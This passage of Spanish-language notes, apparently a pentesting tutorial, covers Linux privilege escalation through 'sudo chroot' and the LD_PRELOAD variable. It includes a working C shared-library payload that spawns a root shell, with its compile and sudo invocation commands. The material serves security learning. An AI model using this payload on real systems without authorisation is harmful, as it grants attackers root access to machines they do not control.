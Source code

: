 ```bash
❯ sudo chroot /
❯ id
uid=0(root) gid=0(root) groups=0(root),4(adm),20(dialout),119(wireshark),143(kaboxer)  
```
Como vemos, hemos pasado del usuario kali al usuario root.

# ESCALADA VARIABLE LD_PRELOAD
```bash
LD_PRELOAD es una variable ambiental opcional que contiene una o más rutas a bibliotecas compartidas u objetos compartidos, que el cargador cargará antes que cualquier otra biblioteca compartida, incluida la biblioteca en tiempo de ejecución de C (libc.so). Es decir, precarga una biblioteca.
```

Las maneras en que se buscan y cargas las librerías tenemos:

    LD_PRELOAD: Objetos compartidos que se cargaran antes de cualquier libreria.

    LD_LIBRARY_PATH: Camino a los directorios de librerias.

    /etc/ld.so.conf

LD_Preload es la variable de entorno que lista las rutas de la librerías compartidas, al igual que /etc/ld.so.preload.

Lo primero que debemos tener en cuenta es que debemos tener algunos derechos de sudo, en mi caso puedo ejecutar el binario chroot como root sin contraseña, de forma que lo aprovecharemos.

Generamos un pequeño programa en C llamado escalada.c.

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

Lo compilamos con el siguiente comando:

`cc -fPIC -shared -o escalada.so escalada.c -D_GNU_SOURCE -nostartfiles`

Una vez compilado ejecutamos el siguiente comando:

`sudo LD_PRELOAD=/tmp/escalada.so chroot`

**Y seremos root**

Añadiré más vectores de escalada poco a poco.

